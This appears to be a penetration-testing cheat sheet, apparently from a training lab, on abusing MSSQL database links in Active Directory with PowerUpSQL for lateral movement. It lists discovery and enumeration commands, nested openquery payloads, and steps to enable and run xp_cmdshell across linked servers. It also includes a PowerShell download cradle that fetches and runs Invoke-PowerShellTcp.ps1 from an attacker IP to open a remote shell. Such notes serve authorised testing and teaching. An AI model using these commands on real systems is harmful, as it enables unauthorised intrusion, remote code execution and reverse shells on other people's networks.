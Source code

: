 # AD - MSSQL

## MSSQL Server - Data

### Description

* SQL Servers provide very good options for laterla movement as domain users can be mapped to databse roles
* Database Links allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources
* In case of databse Links between SQL Servers => linked SQL Servers - it is possible to execute stored procedures
* Database links work even accros forest/domain trusts - nothing limits it

### Requirement

* SPN and active SQL Server

### Tool

* PowerUpSQL [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Discovery (SPN Scanning)**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Import-module .\PowerUpSQL.ps1
</strong><strong>Get-SQLInstanceDomain
</strong>
//Gets all SPNs which start with MSSQL - maybe no SQL Server is running (anymore)
</code></pre>

**Check Accessibility**

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose
```

**Gather Informatione**

```powershell
Get-SqlInstanceDomain | Get-SQLServerInfor -verbose
```

**Search for database Links**

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-SQLServerLink -Instance hostname_of_mssql_server -verbose
</strong>  On all sqlinstances from above
<strong>❗Get-SQLServerLinkCrawl -Instance hostname_of_mssql_server -verbose
</strong>
-or-

select * from master..sysservers 
//do it in HeidiSQL Portable / Hostname of mssqlserver &#x26; Windows Auth
</code></pre>

**Enumerating DB Links manually**

{% code overflow="wrap" %}
```sql
select * from openquery("nextHost",'select * from master.sysservers')
select * from openquery(""nextHost",'select * from openquery("nexNextHost","select * from master.sysservers")')
```
{% endcode %}

**Executing commands**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'whoami'"
</strong><strong>
</strong>Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'powershell download cradle"

❗Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.x.x/Invoke-PowerShellTcp.ps1'')"'
<strong>
</strong>//this runs accross all links
=> only for eu-sql we get an output
</code></pre>

**Executing Commands**\
****Target server should have xp\_cmdshell or rpcout (disabled by default)

* If rpcout is enalbed, you can enable xp\_cmdshell using\
  EXECUTE('sp\_configure "xp\_cmdshell",1;reconfigure;') AT "link-name"
* Use the -QuertyTarget parameter to run Query on a specific instance (without -QueryTarget the command tries to use xp\_cmdshell on every link of the chain)&#x20;

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql

From the initial SQL Server, OS commands can be executed using nested link queries:
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select
@@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```
{% endcode %}

